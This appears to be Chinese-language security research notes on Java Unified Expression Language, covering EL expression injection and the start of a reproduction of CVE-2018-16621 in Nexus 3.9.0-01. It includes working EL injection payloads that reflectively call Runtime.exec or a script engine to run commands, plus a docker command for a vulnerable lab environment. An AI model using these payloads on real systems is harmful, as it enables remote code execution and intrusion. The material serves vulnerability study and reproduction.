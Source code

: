 ## 简介

> [https://zh.wikipedia.org/zh/%E7%BB%9F%E4%B8%80%E8%A1%A8%E8%BE%BE%E5%BC%8F%E8%AF%AD%E8%A8%80](https://zh.wikipedia.org/zh/统一表达式语言)

Java**统一表达式语言**（英語：Unified Expression Language，简称**JUEL**）是一种特殊用途的编程语言，主要在[Java](https://zh.wikipedia.org/wiki/Java) [Web应用程序](https://zh.wikipedia.org/wiki/Web应用程序)用于将表达式嵌入到web页面。[Java](https://zh.wikipedia.org/wiki/Java)规范制定者和Java Web领域技术专家小组制定了统一的表达式语言。JUEL最初包含在[JSP](https://zh.wikipedia.org/wiki/JSP) 2.1规范JSR-245中，后来成为Java EE 7的一部分，改在JSR-341中定义。

### 网上流传的el 表达式注入 poc

```java
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}

//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

//文件头参数
${header}

//获取webRoot
${applicationScope}

//执行命令
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc").getInputStream())}

${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('calc')}

${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('calc')")}
```

构造 远程 rce 有两种方式:

- 反射 invoke 调用 java.lang.Runtime  exec 

- 反射 newInstance 创建javax.script.ScriptEngineManager 脚本引擎



### java el 2.1（复现 nexus3:3.9.0-01     CVE-2018-16621 ）



*以下内容来源于 复现 nexus3:3.9.0-01     CVE-2018-16621  的过程*

docker 一行启动 nexus3:3.9.0-01 环境

`docker run -d --rm -p 8081:8081 -p 5050:5050 --name nexus  -e INSTALL4J_ADD_VM_PARAMS="-Xms2g -Xmx2g -XX:MaxDirectMemorySize=3g  -Djava.util.prefs.userRoot=/nexus-data -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050"  sonatype/nexus3:3.9.0-01`


